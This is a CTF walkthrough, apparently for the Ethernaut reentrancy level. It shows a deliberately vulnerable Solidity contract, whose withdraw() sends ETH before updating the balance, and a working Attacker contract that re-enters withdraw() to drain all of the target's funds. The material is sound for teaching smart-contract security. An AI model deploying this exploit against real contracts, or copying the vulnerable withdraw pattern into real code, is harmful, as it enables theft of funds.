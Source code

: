# Re-entrancy

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

## Goal

steal all the funds from the Reentrance contract

## Exploit

In order to finish this CTF we will have to use another smart contract. We can name this contract Attacker.

The purpose of the Attacker will be to make reentrant callback to some function inside the Reentrance contract.

Reentrancy attacks (<a href="https://swcregistry.io/docs/SWC-107" target="_blank" rel="noopener noreferrer">SWC-107</a>) are very well-known thanks to the infamous <a href="https://blog.openzeppelin.com/15-lines-of-code-that-could-have-prevented-thedao-hack-782499e00942/" target="_blank" rel="noopener noreferrer">DAO hack</a> that happened on the Ethereum network. In a reentrancy attack, a vulnerable contract sends ether to an unknown address that contains a fallback function. Then, a malicious code calls back repeatedly a function in the vulnerable contract before the first call be finished.

In order for reentrancy to happen the vulnerable function must make external function call to uknown address (malicious smart contract).

If we take a look into our code, we can see that the only place where external call is made is inside the withdraw function

```
(bool result,) = msg.sender.call{value:_amount}("");
```

So, in our case if we call the withdraw() function from the Attacker contract (in which case msg.sender will refer to the address of the Atacker contract), from the code above we can see that the Attacker contract is called and we are sending value (ETH) to it. What we know from the previous CTFs is that when we send a value to a smart contract withoud call data, then the receive() function, if present, is called/triggered.

Knowing that we can implement the receive() function in the Attacker contract, in a way that inside receive(), the withdraw() function from the Reentrance contract will be called again, thus not alowing the withdraw() function to complete untill all of the ETH from the Reentrance smart contract is drained.

The steps to reproduce the exploit would be:

1. create Attacker contract, and create instance from the Reentrance contract inside the Attacker contract
2. call donate(_to) function inside Reentrance from our EOA account using the Attacker contract address as argument for _to parameter
3. create external receive() function inside Attacker contract, this function will make a reentrant call to the Reentrance contract by calling the withdraw() function within it, as along as address(reentrance).balance is greater than 0

## Attacker contract code

```
contract Attacker {
  Reentrance private immutable reentrance;

  constructor(address payable _reentrance) public {
    reentrance = Reentrance(_reentrance);
  }

  receive() external payable {
    if(address(reentrance).balance > 0) {
      if(address(reentrance).balance > reentrance.balanceOf(address(this))) {
        reentrance.withdraw(reentrance.balanceOf(address(this)));
      } else {
        reentrance.withdraw(address(reentrance).balance);
      }
    }
  }
}
```